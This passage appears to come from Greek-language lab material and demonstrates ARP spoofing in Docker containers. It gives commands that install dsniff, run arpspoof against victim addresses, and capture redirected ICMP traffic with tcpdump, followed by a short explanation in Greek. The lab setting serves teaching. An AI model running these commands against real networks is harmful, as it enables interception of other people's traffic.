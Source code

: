 \texttt{\textlatin{(vic0)\# apt install net-tools iproute2 iputils-ping}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(host)\$ docker run --rm -it --name=victim1 -h victim1 ubuntu:latest /bin/bash}}

\texttt{\textlatin{(host)\$ docker run --rm -it --name=attacker -h attacker ubuntu:latest /bin/bash}}

\texttt{\textlatin{(atck)\# apt update}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(atck)\# apt install dsniff net-tools iproute2 tcpdump}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(atck)\# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(vic0)\# arp}}

\texttt{\textlatin{arp}}

\texttt{\textlatin{172.17.0.3 ether 02:42:ac:11:00:04 C eth0}}

\texttt{\textlatin{...}}

\texttt{\textlatin{172.17.0.4 ether 02:42:ac:11:00:04 C eth0}}

\texttt{\textlatin{(vic0)\# ping 172.17.0.3}}

\texttt{\textlatin{...}}

\texttt{\textlatin{(atck)\# tcpdump -vni eth0 icmp}}

\texttt{\textlatin{...}}

\texttt{\textlatin{10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84) 172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64}}

\texttt{\textlatin{10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84) 172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64}}

\texttt{\textlatin{...}} \\

Αρχικά ξεκινάμε τρία κοντέινερ και εγκαθιστούμε τις εξαρτήσεις. Μετά ξεκινάμε
να δηλητηριάζουμε τον πίνακα \textlatin{ARP} του \textlatin{victim0}. Μπορούμε
να το παρατηρήσουμε αυτό κοιτάζοντας τον πίνακα \textlatin{ARP} του
\textlatin{victim0} (με την εντολή \textlatin{arp}). Βλέπουμε ότι οι εγγραφές
για 172.17.0.3 και 172.17.0.4 είναι τα ίδια (\textlatin{02:42:ac:11:00:04}). Αν
εμείς στη συνέχεια αρχίσουμε να κάνουμε \textlatin{ping} από το
\textlatin{victim0} και κοιτάξουμε την κίνηση του \textlatin{ICMP} επιτιθέμενου,
βλέπουμε ότι τα πακέτα \textlatin{ICMP} δρομολογούνται μέσω του επιτιθέμενου.

